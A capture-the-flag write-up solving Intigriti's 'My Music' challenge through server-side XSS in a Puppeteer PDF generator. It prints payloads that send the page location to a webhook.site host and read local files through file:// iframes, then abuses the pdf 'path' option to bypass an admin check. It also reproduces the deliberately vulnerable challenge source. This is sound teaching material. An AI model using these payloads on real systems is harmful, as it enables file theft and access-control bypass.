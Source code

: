 # My Music [10 Solves]

## Description

> Checkout my new platform for sharing the tunes of your life! 🎶
>
> Author: holmesec
>
> <https://mymusic.ctf.intigriti.io> || <https://mymusic2.ctf.intigriti.io>

## Flag

INTIGRITI{0verr1d1ng_4nd_n0_r3turn_w4s_n3ed3d_for_th15_fl4g_to_b3_e4rn3d}

## Solution

### Server Side XSS

In `/profile` page, input Spotify track code to `<s>XSS</s>` and clicked `Generate profile card`, then got the following PDF.
Found Server Side XSS.

![My_Music_detect_xss.png](img/My_Music_detect_xss.png)

Exploiting this vulnerability to leak information.

Path Disclosure:

- payload: `<script>location.href = "https://webhook.site/<yourwebhook>/?data=" + location.href</script>`
- got: `file:///app/tmp/75f1b1fa-e0d2-4355-8aff-a9b4b132f4c3.html`

I guess that the source code endpoint is /app/app.js.

Leak source code:

- payload:
  - `<iframe src=file://<filename> width=1000px height=2000px></iframe>`
  - `<script>document.write(file:///app/app.js)</script>`

The following is the leaked source code.

<details><summary>/app/app.js</summary>

```javascript
const express = require('express')
const { engine } = require('express-handlebars')
const cookieParser = require('cookie-parser')
const { auth } = require('./middleware/auth')
const app = express()
app.engine('handlebars', engine())
app.set('view engine', 'handlebars')
app.set('views', './views')
app.use(express.json())
app.use(cookieParser())
app.use(auth)
app.use('/static', express.static('static'))
app.use('/', require('./routes/index'))
app.use('/api', require('./routes/api'))
app.listen(3000, () => {
 console.log('Listening on port 3000...')
})
```

</details>

<details><summary>/app/routes/index.js</summary>

```javascript
const express = require('express')
const { requireAuth } = require('../middleware/auth')
const { isAdmin } = require('../middleware/check_admin')
const { getRandomRecommendation } = require('../utils/recommendedSongs')
const { generatePDF } = require('../utils/generateProfileCard')
const router = express.Router()
router.get('/', (req, res) => {
    const spotifyTrackCode = getRandomRecommendation()
    res.render('home', { userData: req.userData, spotifyTrackCode })
})
router.get('/register', (req, res) => {
    res.render('register', { userData: req.userData })
})
router.get('/login', (req, res) => {
    if (req.loginHash) {
        res.redirect('/profile')
    }
    res.render('login', { userData: req.userData })
})
router.get('/logout', (req, res) => {
    res.clearCookie('login_hash')
    res.redirect('/')
})
router.get('/profile', requireAuth, (req, res) => {
    res.render('profile', { userData: req.userData, loginHash: req.loginHash })
})
router.post('/profile/generate-profile-card', requireAuth, async (req, res) => {
    const pdf = await generatePDF(req.userData, req.body.userOptions)
    res.contentType('application/pdf')
    res.send(pdf)
})
router.get('/admin', isAdmin, (req, res) => {
    res.render('admin', { flag: process.env.FLAG || 'CTF{DUMMY}' })
})
module.exports = router
```

</details>

<details><summary>/app/middleware/check_admin.js</summary>

```javascript
const { getUser, userExists } = require('../services/user')
const isAdmin = (req, res, next) => {
    let loginHash = req.cookies['login_hash']
    let userData
    if (loginHash && userExists(loginHash)) {
        userData = getUser(loginHash)
    } else {
        return res.redirect('/login')
    }
    try {
        userData = JSON.parse(userData)
        if (userData.isAdmin !== true) {
            res.status(403)
            res.send('Only admins can view this page')
            return
        }
    } catch (e) {
        console.log(e)
    }
    next()
}
module.exports = { isAdmin }
```

</details>

<details><summary>/app/middleware/auth.js</summary>

```javascript
const { userExists, getUser } = require('../services/user')
const auth = (req, res, next) => {
    let loginHash = req.cookies['login_hash']
    if (loginHash && userExists(loginHash)) {
        try {
            let userData = JSON.parse(getUser(loginHash))
            req.userData = userData
            req.loginHash = loginHash
        } catch (e) {
            console.log(e)
        }
    }
    next()
}
const requireAuth = (req, res, next) => {
    if (!req.userData) {
        return res.redirect('/login')
    }
    next()
}
module.exports = { auth, requireAuth }
```

</details>

<details><summary>/app/routes/api.js</summary>

```javascript
const express = require('express')
const { body, cookie } = require('express-validator')
const {
    addUser,
    getUserData,
    updateUserData,
    authenticateAsUser,
} = require('../controllers/user')
const router = express.Router()
router.post(
    '/register',
    body('username').not().isEmpty().withMessage('Username cannot be empty'),
    body('firstName').not().isEmpty().withMessage('First name cannot be empty'),
    body('lastName').not().isEmpty().withMessage('Last name cannot be empty'),
    addUser
)
router.post(
    '/login',
    body('loginHash').not().isEmpty().withMessage('Login hash cannot be empty'),
    authenticateAsUser
)
router
    .get('/user', getUserData)
    .put(
        '/user',
        body('firstName')
            .not()
            .isEmpty()
            .withMessage('First name cannot be empty'),
        body('lastName')
            .not()
            .isEmpty()
            .withMessage('Last name cannot be empty'),
        body('spotifyTrackCode')
            .not()
            .isEmpty()
            .withMessage('Spotify track code cannot be empty'),
        cookie('login_hash').not().isEmpty().withMessage('Login hash required'),
        updateUserData
    )
module.exports = router
```

</details>

<details><summary>/app/controllers/user.js</summary>

```javascript
const {
    createUser,
    getUser,
    setUserData,
    userExists,
} = require('../services/user')
const { validationResult } = require('express-validator')
const addUser = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { username, firstName, lastName } = req.body
    const userData = {
        username,
        firstName,
        lastName,
    }
    try {
        const loginHash = createUser(userData)
        res.status(204)
        res.cookie('login_hash', loginHash, { secure: false, httpOnly: true })
        res.send()
    } catch (e) {
        console.log(e)
        res.status(500)
        res.send('Error creating user!')
    }
}
const getUserData = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { loginHash } = req.body
    try {
        const userData = getUser(loginHash)
        res.send(JSON.parse(userData))
    } catch (e) {
        console.log(e)
        res.status(500)
        res.send('Error fetching user!')
    }
}
const updateUserData = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { firstName, lastName, spotifyTrackCode } = req.body
    const userData = {
        username: req.userData.username,
        firstName,
        lastName,
        spotifyTrackCode,
    }
    try {
        setUserData(req.loginHash, userData)
        res.send()
    } catch (e) {
        console.log(e)
        res.status(500).send('Error updating user!')
    }
}
const authenticateAsUser = (req, res) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { loginHash } = req.body
    if (userExists(loginHash)) {
        res.cookie('login_hash', loginHash, { httpOnly: true })
        res.send()
    } else {
        res.status(404).send('User not found')
    }
}
module.exports = { addUser, getUserData, updateUserData, authenticateAsUser }
```

</details>

<details><summary>/app/services/user.js</summary>

```javascript
const fs = require('fs')
const path = require('path')
const { createHash } = require('crypto')
const { v4: uuidv4 } = require('uuid')
const dataDir = './data'
const createUser = (userData) => {
    const loginHash = createHash('sha256').update(uuidv4()).digest('hex')
    fs.writeFileSync(
        path.join(dataDir, `${loginHash}.json`),
        JSON.stringify(userData)
    )
    return loginHash
}
const setUserData = (loginHash, userData) => {
    if (!userExists(loginHash)) {
        throw 'Invalid login hash'
    }
    fs.writeFileSync(
        path.join(dataDir, `${path.basename(loginHash)}.json`),
        JSON.stringify(userData)
    )
    return userData
}
const getUser = (loginHash) => {
    let userData = fs.readFileSync(
        path.join(dataDir, `${path.basename(loginHash)}.json`),
        {
            encoding: 'utf8',
        }
    )
    return userData
}
const userExists = (loginHash) => {
    return fs.existsSync(path.join(dataDir, `${path.basename(loginHash)}.json`))
}
module.exports = { createUser, getUser, setUserData, userExists }
```

</details>

<details><summary>/app/utils/generateProfileCard.js</summary>

```javascript
const puppeteer = require('puppeteer')
const fs = require('fs')
const path = require('path')
const { v4: uuidv4 } = require('uuid')
const Handlebars = require('handlebars')
const generatePDF = async (userData, userOptions) => {
    let templateData = fs.readFileSync(
        path.join(__dirname, '../views/print_profile.handlebars'),
        {
            encoding: 'utf8',
        }
    )
    const template = Handlebars.compile(templateData)
    const html = template({ userData: userData })
    const filePath = path.join(__dirname, `../tmp/${uuidv4()}.html`)
    fs.writeFileSync(filePath, html)
    const browser = await puppeteer.launch({
        executablePath: '/usr/bin/google-chrome',
        args: ['--no-sandbox'],
    })
    const page = await browser.newPage()
    await page.goto(`file://${filePath}`, { waitUntil: 'networkidle0' })
    await page.emulateMediaType('screen')
    let options = {
        format: 'A5',
    }
    if (userOptions) {
        options = { ...options, ...userOptions }
    }
    const pdf = await page.pdf(options)
    await browser.close();
    fs.unlinkSync(filePath)
    return pdf
}
module.exports = { generatePDF }
```

</details>

### Source Code Reading

Looking at the source code, and the following is the points I've noticed.

- [POST] /api/register: Create User
  - Create an object from the JSON data submitted by the user: `userData = {"username": "yourname", "firstName": "yourfirstname", "lastName": "yourlastname"}`
  - Save `userData` to a JSON file named /app/data/sha256(uuidv4).json file
- [POST] /api/login: Login
  - Check the existence of the /app/data/usersubmitvalue.json file
    - If it exists, set the Set-Cookie header to `login_hash=usersubmittvalue` and return a status code of 200
    - If it does not exist, return a 404 as a login failure
- [POST] /profile/generate-profile-card: Generate PDF

  ```javascript
  router.post('/profile/generate-profile-card', requireAuth, async (req, res) => {
      const pdf = await generatePDF(req.userData, req.body.userOptions)
      res.contentType('application/pdf')
      res.send(pdf)
  })
  ```
  
  - `req.body.userOptions` is user-controllable
  - The `req.body.userOptions` submitted by the user is passed to the function `generatePDF`, and it is used as `page.pdf(options)` in Puppeteer.
  - If a user passes the option as `"path": "/tmp/foobar1234.pdf"`, the generated PDF is saved to `/tmp/foobar1234.pdf`.

  - Pupeteer references:
    - [Page.pdf() method \| Puppeteer](https://pptr.dev/api/puppeteer.page.pdf)
    - [PDFOptions interface \| Puppeteer](https://pptr.dev/api/puppeteer.pdfoptions)

      > | Property | Modifiers | Type   | Description                   | Default                                                     |
      > |----------|-----------|--------|-------------------------------|-------------------------------------------------------------|
      > | path     | optional  | string | The path to save the file to. | undefined, which means the PDF will not be written to disk. |

- [GET] /admin: Return flag
  - In `isAdmin` middleware, read /app/data/usersubmittvalue.json file and parse it as json.
    If `"isAdmin": true` is found, returns the flag stored as environment variable.
  - If `JSON.parse(userData)` throws an error, only `console.log(e)` is invoked in the catch block, and no return.
    After that, `next()` is called, allowing bypassing the `isAdmin` middleware.

    `isAdmin` middleware:

    ```javascript
    const { getUser, userExists } = require('../services/user')
    const isAdmin = (req, res, next) => {
        let loginHash = req.cookies['login_hash']
        let userData
        if (loginHash && userExists(loginHash)) {
            userData = getUser(loginHash)
        } else {
            return res.redirect('/login')
        }
        try {
            userData = JSON.parse(userData)
            /* bypassed
            if (userData.isAdmin !== true) {
                res.status(403)
                res.send('Only admins can view this page')
                return
            }
            */
        } catch (e) {
            console.log(e)
        }
        next()
    }
    module.exports = { isAdmin }
    ```

    Throw error tested:

    ```console
    $ # download PDF named as generate-profile-card.pdf
    
    $ node
    Welcome to Node.js v18.13.0.
    Type ".help" for more information.
    
    > let userData = fs.readFileSync('generate-profile-card.pdf', { encoding: 'utf8' })
    undefined
    > JSON.parse(userData);
    Uncaught SyntaxError: Unexpected token % in JSON at position 0
    ```

Therefore, I can get the flag by the following Exploit Step:

### Exploit Step

1. User1
   1. send a request to /profile/generate-profile-card path with the following JSON as the body.
      This will result in the PDF being saved to /app/data/foobar1234.json file.

       ```json
       {
         "userOptions": {
           "path": "/app/data/foobar1234.json"
         }
       }
       ```

1. User2
   1. send a request to /api/login path with Login hash as `foobar1234`.
      Note: It redirects to /login path from /profile path, this is expected behavior.
      The `requireAuth` middleware redirects to /login path since `req.userData` is undefined.
   1. send a request to /admin path manually

![My_Music_flag.png](img/My_Music_flag.png)

## Post Exploitation

/app/views/print_profile.handlebars

```hbs
<!-- (snip) -->
      <p style="word-break: break-all">
        (https://open.spotify.com/embed/track/{{ #if userData.spotifyTrackCode
        }}{{{userData.spotifyTrackCode}}}{{ else}}5iUQMwxUPdJBFeGkePtM66{{/if}
      </p>
    </div>
    <script>
      const trackContentElm = document.getElementById("trackContent");
      const oembedURL =
        "https://open.spotify.com/oembed?url=https://open.spotify.com/track/{{ #if userData.spotifyTrac{{ userData.spotifyTrackCode }}{{ else}}5iUQMwxUPdJBFeGkePtM66{{/if}}";
      fetch(oembedURL)
        .then((res) => res.json())
        .then((res) => {
          let img = document.createElement("img");
          img.src = res.thumbnail_url;
          img.style = "width: 250px";
          let p = document.createElement("p");
          p.innerText = res.title;
          p.style = "text-align: center";
          trackContentElm.append(img, p);
        });
    </script>
  </body>
</html>
```

Server Side XSS is occured because it uses three bracket `{{{` instead of two bracket `{{`.

[Introduction \| Handlebars](https://handlebarsjs.com/guide/#html-escaping)

> Because it was originally designed to generate HTML, Handlebars escapes values returned by a {{expression}}. If you don't want Handlebars to escape a value, use the "triple-stash", {{{.

## References

- [XSS with Dynamic PDF \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/xss-with-dynamic-pdf/)
- [Server Side XSS (Dynamic PDF) - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

